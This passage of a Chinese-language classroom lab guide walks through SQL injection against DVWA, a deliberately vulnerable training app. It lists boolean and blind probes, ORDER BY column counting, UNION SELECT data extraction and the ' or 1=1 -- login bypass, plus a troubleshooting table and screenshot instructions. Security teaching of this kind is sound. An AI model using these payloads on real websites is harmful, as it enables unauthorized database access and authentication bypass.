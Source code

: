 3. 输入：
   ```sql
   1' AND 1=2 -- 
   ```
   页面空白或不同，说明注入有效

4. 试探数据库名：
   ```sql
   1' AND SUBSTRING(database(),1,1)='d' -- 
   ```
   页面正常则表示猜中，否则继续试 a~z

---

## 🧩 常见错误与解决方案

| 问题类型 | 错误表现 | 正确写法或说明 |
|----------|------------|----------------|
| 注释错误 | 报 SQL syntax 错误 | 使用 `-- `（后面有空格）或 `#` |
| 引号不匹配 | near `'''` 报错 | 开头加 `'`，结尾用注释关闭：`' or 1=1 -- ` |
| 字段数错误 | UNION 报错 | 使用 `' ORDER BY n -- ` 确定字段数量 |

---

## 🧠 常用探测顺序建议

1. `' ORDER BY 1 -- ` 逐步测试字段数量
2. `' UNION SELECT 1,2 -- ` 看哪列可以回显
3. `' UNION SELECT null, database() -- ` 进行信息提取
4. 枚举表名、字段名
5. 提取数据，用 concat 拼接字段输出

---

## 🎁 模块推荐 + 练习组合（DVWA）

| 模块名称 | 推荐攻击方式 | 说明 |
|----------|---------------|------|
| SQL Injection | UNION 查询注入 | 页面有回显 |
| SQL Injection (Blind) | 布尔盲注、时间盲注 | 页面无回显，通过变化判断 |
| Login 页面 | `' or 1=1 -- ` 绕过 | 用于身份绕过攻击 |
| 安全等级设置 | 低（Low） | 建议使用 Low 练习所有注入功能 |

---

## 📸 演示注意事项（截图建议）

- 每次攻击成功后，请截图以下内容：
  - 输入框中 payload
  - 页面显示的数据（如用户名密码、数据库名）
  - 地址栏 URL 一起截进去
- 不要关闭窗口，老师会现场检查！

---